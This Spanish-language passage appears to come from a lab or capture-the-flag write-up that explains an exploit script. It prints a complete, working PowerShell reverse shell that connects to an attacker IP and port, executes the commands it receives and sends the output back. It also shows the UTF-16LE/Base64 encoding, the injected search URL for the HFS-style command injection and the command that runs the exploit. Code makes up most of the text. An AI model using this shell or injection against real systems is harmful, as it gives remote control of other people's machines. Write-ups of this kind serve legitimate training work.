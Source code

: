 ### 🧬 Payload en PowerShell

El payload usado es una reverse shell en PowerShell que:

1. Crea un socket TCP al atacante.
    
2. Escucha y ejecuta los comandos recibidos.
    
3. Devuelve la salida por el mismo canal.

```bash
$client = New-Object System.Net.Sockets.TCPClient("10.10.16.35",4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i); $sendback = (Invoke-Expression $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (Get-Location).Path + "> "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close()
```

### 🔐 Codificación del payload

PowerShell requiere que el payload se codifique en **UTF-16LE** y luego en **Base64** si se usa `-EncodedCommand`. Esto se hace automáticamente en el script:

```bash
encoded_command = base64.b64encode(command.encode("utf-16le")).decode()
```

Se construye la URL con el payload codificado:

```bash
url = f'http://{rhost}:{rport}/?search=%00{{.{encoded_payload}.}}'
```

### 🧪 Ejecución del exploit


```bash
sudo python3 49584.py
```

![](../img/40117608789362177b83c66fa6f23db0.png)
